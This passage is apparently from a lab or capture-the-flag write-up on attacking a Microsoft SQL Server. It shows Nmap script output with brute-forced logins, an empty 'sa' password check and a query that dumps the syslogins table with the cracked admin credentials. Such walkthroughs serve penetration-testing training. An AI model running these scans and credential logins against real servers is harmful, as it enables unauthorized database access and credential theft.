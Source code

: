 ```
|       auditor:jasmine1 => Login Success
|_      admin:anamaria => Login Success

Nmap done: 1 IP address (1 host up) scanned in 4.17 seconds

```

Identify 'sa' user password

`sa:<empty>`

```
root@attackdefense:~# nmap -p 1433 --script ms-sql-empty-password 10.0.27.132
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-27 09:41 IST
Nmap scan report for 10.0.27.132
Host is up (0.0031s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-empty-password: 
|   [10.0.27.132:1433]
|_    sa:<empty> => Login Success

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds

```

Execute MSSQL query to extract sysusers

```
##MS_SQLResourceSigningCertificate##
##MS_SQLReplicationSigningCertificate##
##MS_SQLAuthenticatorCertificate##
##MS_PolicySigningCertificate##
##MS_SmoExtendedSigningCertificate##
##MS_PolicyEventProcessingLogin##
##MS_PolicyTsqlExecutionLogin##
##MS_AgentSigningCertificate##
EC2AMAZ-5861GL6\Administrator
NT SERVICE\SQLWriter
NT SERVICE\Winmgmt
NT Service\MSSQL$SQLEXPRESS
BUILTIN\Users
NT AUTHORITY\SYSTEM
NT SERVICE\SQLTELEMETRY$SQLEXPRESS
admin
Mssql
Mssqla
auditor
dbadmin
```

```
root@attackdefense:~# nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" 10.0.27.132 -oN output.txt
```
